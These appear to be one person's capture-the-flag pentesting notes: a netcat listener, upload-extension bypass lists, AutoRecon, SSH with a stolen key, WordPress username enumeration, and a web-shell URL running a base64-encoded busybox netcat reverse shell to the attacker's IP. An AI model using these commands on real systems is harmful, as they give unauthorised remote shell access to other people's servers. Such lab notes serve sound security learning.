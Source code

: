 


.........................................................................................................................................................................

https://www.youtube.com/watch?v=ImrLbomFYA0&ab_channel=TomPeppercorn
.........................................................................................................................................................................

![](../Attachements/Pasted%20image%2020250218130751.png)
.........................................................................................................................................................................

https://www.youtube.com/watch?v=sL-GUmdQ-nk&t=214s&ab_channel=MarcoSerafini
.........................................................................................................................................................................

https://www.youtube.com/watch?v=O_fSvoSJ-ac&ab_channel=killAndy

.........................................................................................................................................................................

usr/share/webshell
.........................................................................................................................................................................


```bash
nc -lvp 1234 => netcat listner
```
![](../Attachements/Pasted%20image%2020250106141352.png)

ok
![](../Attachements/Pasted%20image%2020250218130640.png)
.........................................................................................................................................................................

Few supported extension wordlist in web application
- .php
- .php3
- .php4
- .php5
- .php6
- .phtml
- 

![](../Attachements/Pasted%20image%2020250106141526.png)
Capture the request and bruteforce extension to find what and all are supported.
.........................................................................................................................................................................

![](../Attachements/Pasted%20image%2020250217140711.png)
............................................................................................................................................................................

AUTORECON
```
The way to run using sudo
sudo env "PATH=$PATH" autorecon [OPTIONS]
sudo $(which autorecon) [OPTIONS]

```

............................................................................................................................................................................
command to use id_rsa to login using ssh.
Change the id_rsa permission first before executing the command.
```
ssh -i id_rsa cactus@10.10.52.92
```

............................................................................................................................................................................

In wordpress if you try to login:
![](../Attachements/Pasted%20image%2020250223221902.png)
This will tell password is incorrect or username is incorrect:
If user name is wrong, it tells you.
A way to enumurate username

............................................................................................................................................................................

```
Execute this command in browser to have command executed
http://www.smol.thm/wp-admin/index.php?cmd=echo YnVzeWJveCBuYyAxMC4xNC45MC4yMzUgNDQ0NSAtZSAvYmluL2Jhc2g= | base64 -d | bash
```
http://www.smol.thm/wp-admin/index.php?cmd=echo YnVzeWJveCBuYyAxMC4xNC45MC4yMzUgNDQ0NSAtZSAvYmluL2Jhc2g= | base64 -d | bash

............................................................................................................................................................................



